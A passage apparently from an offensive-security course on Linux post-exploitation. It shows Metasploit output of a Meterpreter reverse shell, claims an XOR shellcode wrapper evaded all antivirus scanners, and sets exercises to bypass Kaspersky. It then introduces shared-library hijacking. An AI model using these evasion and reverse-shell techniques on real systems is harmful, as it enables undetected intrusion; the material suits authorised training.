 If we compile and run the program, we notice that we get a shell in our Metasploit listener.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.118.3:1337 
[*] Sending stage (3012516 bytes) to 192.168.120.45
[*] Meterpreter session 11 opened (192.168.118.3:1337 -> 192.168.120.45:43588)

meterpreter > getuid
Server username: no-user @ linuxvictim (uid=1000, gid=1000, euid=1000, egid=1000)
```

> Listing 41 - Received a shell via our XOR wrapper program

Now that we know that the shell works properly, let's try scanning it with Antiscan.me. We'll repeat the process of renaming the file to have a .exe extension, downloading it to our Kali VM, and uploading to Antiscan as before.

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/lcs/e86162cf606dc364c2c70ffceee3a178-lcs_av_antiscan_xorscanned_outlined.png" alt="Figure 4: Our XOR wrapper passed all scanners"><figcaption><p>Figure 4: Our XOR wrapper passed all scanners</p></figcaption></figure>

The results show that our changes were sufficient to bypass all 26 scanners.

The fact that our XOR-based shellcode wrapper program bypassed all of the scanners shows the minimal effort required to evade at least some Linux antivirus programs.

In the next section, we'll discuss shared libraries in Linux and how we can abuse them on security assessments.

**Exercises**

1. Bypass Kaspersky by running a shell in a C wrapper program as shown in this section.
2. Bypass the other scanners in Antiscan.me using XOR obfuscation as shown in this section.

**Extra Mile**

Modify the example we covered in this section to use a different encoding method such as using a Caesar Cipher.

1

(AntiScan.Me, 2020), [https://www.antiscan.me/](https://www.antiscan.me/) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fnref-local_id_433-1)

2

(Wikipedia, 2020), [https://en.wikipedia.org/wiki/XOR\_cipher](https://en.wikipedia.org/wiki/XOR_cipher) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fnref-local_id_433-2)

### 13.3. Shared Libraries

In this section we'll examine how shared libraries being loaded by applications on a Linux system can be manipulated to provide an advantage to an attacker. This approach is similar to _DLL hijacking_,[1](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fn-local_id_434-1) which is commonly used to compromise Windows systems.
